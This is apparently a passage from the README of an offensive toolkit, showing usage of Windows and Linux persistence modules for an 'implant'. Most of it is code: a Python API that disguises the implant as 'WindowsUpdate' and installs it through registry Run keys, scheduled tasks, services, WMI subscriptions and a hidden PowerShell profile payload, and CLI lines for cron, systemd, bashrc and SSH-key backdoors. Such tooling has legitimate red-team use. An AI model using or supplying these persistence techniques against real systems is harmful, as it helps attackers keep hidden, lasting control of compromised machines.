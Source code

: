 **Python API:**

```python
from persistence.windows_persist import WindowsPersistence

persist = WindowsPersistence('C:\\implant.exe', name='WindowsUpdate')

# Registry Run key
persist.registry_run_key(location='HKCU_Run')

# Scheduled task (runs on logon)
persist.scheduled_task(trigger='ONLOGON', run_level='HIGHEST')

# Create Windows service
persist.service_persistence(start_type='auto')

# Startup folder
persist.startup_folder(all_users=False)

# WMI event subscription
persist.wmi_event_subscription()

# PowerShell profile persistence
payload = "Start-Process C:\\implant.exe -WindowStyle Hidden"
persist.powershell_profile_persistence(payload)

# Generate report
print(persist.generate_report())

# Cleanup all persistence
persist.cleanup_persistence()
```

### 2. Linux Persistence (`persistence/linux_persist.py`)

Comprehensive Linux/Unix persistence mechanisms.

**Techniques:**
- Cron jobs (@reboot, scheduled)
- Systemd services
- Bashrc/profile modifications
- Profile.d scripts
- SSH authorized_keys
- MOTD backdoors
- At jobs
- rc.local
- XDG autostart

**Usage:**

```bash
# Cron job (@reboot)
python persistence/linux_persist.py /tmp/implant.sh --cron

# Systemd service
python persistence/linux_persist.py /tmp/implant.sh --systemd

# Bashrc persistence
python persistence/linux_persist.py /tmp/implant.sh --bashrc

# SSH key persistence
python persistence/linux_persist.py --ssh-key "ssh-rsa AAAAB3..."

# All methods
python persistence/linux_persist.py /tmp/implant.sh --all

```